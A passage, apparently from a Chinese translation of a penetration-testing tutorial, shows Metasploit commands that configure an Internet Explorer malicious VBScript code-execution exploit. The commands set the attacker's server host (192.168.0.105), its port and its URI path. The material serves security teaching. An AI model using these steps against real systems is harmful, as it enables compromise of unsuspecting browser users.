 现在输入`show options`以查看在利用中必须设置的所有选项。

![互联网浏览器恶意 VBScript 代码执行利用](img/3589_06_23.jpg)

第一个所需的选项是`SRVHOST`。它需要反向连接的 IP 地址，因此我们设置攻击者的机器 IP。例如，在这里我们输入`set SRVHOST 192.168.0.105`。

![互联网浏览器恶意 VBScript 代码执行利用](img/3589_06_24.jpg)

现在通过输入`set SRVPORT 80`来设置`SRVPORT`号码。

![互联网浏览器恶意 VBScript 代码执行利用](img/3589_06_25.jpg)

下一个选项是将`URIPATH`路径设置为默认设置，输入`set URIPATH /`。

![互联网浏览器恶意 VBScript 代码执行利用](img/3589_06_26.jpg)
